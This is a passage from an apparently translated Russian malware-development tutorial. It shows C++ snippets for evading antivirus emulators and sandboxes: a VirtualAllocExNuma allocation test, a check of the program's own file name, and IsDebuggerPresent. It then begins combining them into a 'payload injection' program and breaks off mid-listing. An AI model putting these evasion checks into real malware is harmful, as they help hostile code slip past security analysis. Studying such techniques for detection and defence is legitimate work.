 ```cpp
    return true;
  }
}

//...
```

Здесь мы пытаемся выделить память с помощью `VirtualAllocExNuma()`, и если это не удаётся, то программа просто завершается. В противном случае выполнение продолжается.   

Так как код эмулируется, он не запускается в процессе с именем бинарного файла. Поэтому мы сначала проверяем, содержит ли первый аргумент имя файла:   
```cpp
// как меня зовут???
if (strstr(argv[0], "hack2.exe") == NULL) {
  printf("Как меня зовут? Что за черт?? :(");
  return -2;
}
```

Можно просто "спросить" операционную систему, прикреплён ли какой-либо отладчик. Функция `IsDebuggerPresent` по сути проверяет флаг `BeingDebugged` в `PEB`:   
```cpp
// "спросим" ОС, есть ли активный отладчик
if (IsDebuggerPresent()) {
  printf("обнаружен подключенный отладчик :(");
  return -2;
}
```

Динамический анализ вредоносного ПО (или песочница) стал центральной частью любой крупной системы безопасности. В то же время почти все современные угрозы содержат логику обнаружения песочницы.   

Таким образом, мы можем попытаться объединить все эти трюки (`hac2.cpp`):    

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <memoryapi.h>

typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// memory allocation work on regular PC 
// but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), 
  "VirtualAllocExNuma");
```